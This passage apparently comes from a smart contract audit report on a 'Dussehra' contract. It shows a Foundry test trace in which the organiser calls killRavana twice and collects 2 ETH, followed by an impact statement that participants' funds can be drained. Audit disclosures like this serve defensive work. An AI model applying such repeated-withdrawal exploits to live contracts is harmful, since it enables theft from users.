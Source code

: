 ```
    ├─ [117197] Dussehra::enterPeopleWhoLikeRam{value: 1000000000000000000}()
    │   ├─ [70560] RamNFT::mintRamNFT(player2: [0xEb0A3b7B96C1883858292F0039161abD287E3324])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: player2: [0xEb0A3b7B96C1883858292F0039161abD287E3324], tokenId: 1)
    │   │   └─ ← [Stop] 
    │   ├─ emit PeopleWhoLikeRamIsEntered(competitor: player2: [0xEb0A3b7B96C1883858292F0039161abD287E3324])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(1728691201 [1.728e9])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(organiser: [0xe81f335f0c35d66819c4dF203d728f579880b4b1])
    │   └─ ← [Return] 
    ├─ [33984] ChoosingRam::selectRamIfNotSelected()
    │   ├─ [2360] RamNFT::organiser() [staticcall]
    │   │   └─ ← [Return] organiser: [0xe81f335f0c35d66819c4dF203d728f579880b4b1]
    │   ├─ [361] RamNFT::tokenCounter() [staticcall]
    │   │   └─ ← [Return] 2
    │   ├─ [1224] RamNFT::getCharacteristics(1) [staticcall]
    │   │   └─ ← [Return] CharacteristicsOfRam({ ram: 0xEb0A3b7B96C1883858292F0039161abD287E3324, isJitaKrodhah: false, isDhyutimaan: false, isVidvaan: false, isAatmavan: false, isSatyavaakyah: false })
    │   └─ ← [Stop] 
    ├─ [37874] Dussehra::killRavana()
    │   ├─ [376] ChoosingRam::isRamSelected() [staticcall]
    │   │   └─ ← [Return] true
    │   ├─ [0] organiser::fallback{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [9074] Dussehra::killRavana()
    │   ├─ [376] ChoosingRam::isRamSelected() [staticcall]
    │   │   └─ ← [Return] true
    │   ├─ [0] organiser::fallback{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(2000000000000000000 [2e18], 2000000000000000000 [2e18]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.40ms (227.70µs CPU time)

Ran 1 test suite in 662.73ms (1.40ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
## Impact
The vulnerability of the `Dussehra` contract has severe consequences:

1. `Complete Fund Loss for Participants`: The `organiser` can repeatedly call `killRavana`, draining all funds collected from participants. This leads to a total loss for users who contributed to the `contract`.
